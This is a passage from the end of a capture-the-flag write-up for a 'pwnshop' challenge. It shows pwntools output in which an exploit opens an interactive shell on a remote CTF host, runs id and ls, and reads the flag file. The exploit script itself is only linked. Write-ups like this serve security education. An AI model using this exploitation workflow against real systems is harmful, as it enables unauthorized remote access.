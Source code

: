 Now we are really done. Putting all the code in a loop, and waiting long enough eventually we get a working shell:
```bash
[+] Opening connection to 18.205.93.120 on port 1205: Done
[*] Switching to interactive mode
$ id
uid=999(ctf) gid=999(ctf) groups=999(ctf)
$ ls
chall
flag
redir.sh
$ cat flag
AOTW{s4nt4_l0v3s_BL4CKh4ts}
```
You can find all the code in the Python script [pwnshop_pwner.py](pwnshop_pwner.py).
